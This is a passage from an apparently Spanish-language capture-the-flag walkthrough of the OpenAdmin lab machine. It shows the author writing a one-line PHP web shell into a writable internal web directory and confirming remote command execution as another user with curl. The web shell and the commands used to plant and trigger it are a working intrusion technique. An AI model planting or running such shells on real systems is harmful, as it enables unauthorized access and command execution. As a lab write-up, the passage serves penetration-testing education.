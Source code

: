 <figure><img src="../../.gitbook/assets/5436_vmware_v3hltd2ne8.png" alt=""><figcaption></figcaption></figure>

### Gaining Access via Webshell in a Writable Web Directory

A través del usuario `jimmy`, comprobamos que disponemos de permisos de escritura en el directorio `/var/www/internal` en el cual se está levantando esta página web interna. Por lo tanto, lo que decidimos probar es en crear un archivo llamado `gzzcoo.php` el cual se trate de una simple `web shell` para utilizarla y lograr ejecutar comandos.

```bash
jimmy@openadmin:/var/www/internal$ ls -la
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
jimmy@openadmin:/var/www/internal$ echo -e '<?php \n system($_GET["cmd"]); \n ?>' > gzzcoo.php
jimmy@openadmin:/var/www/internal$ cat gzzcoo.php 
<?php 
 system($_GET["cmd"]); 
 ?>
```

Desde nuestra máquina atacante, realizaremos la comprobación de ejecución de comandos. En nuestra primera prueba, indicamos que ejecute el comando `id`, confirmando que la usuaria `joanna` ees la que ejecuta este servidor web y hemos sido capaces de ejecutar comandos remotod.s&#x20;

```bash
❯ curl -s 'http://127.0.0.1:52846/gzzcoo.php?cmd=id'
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```
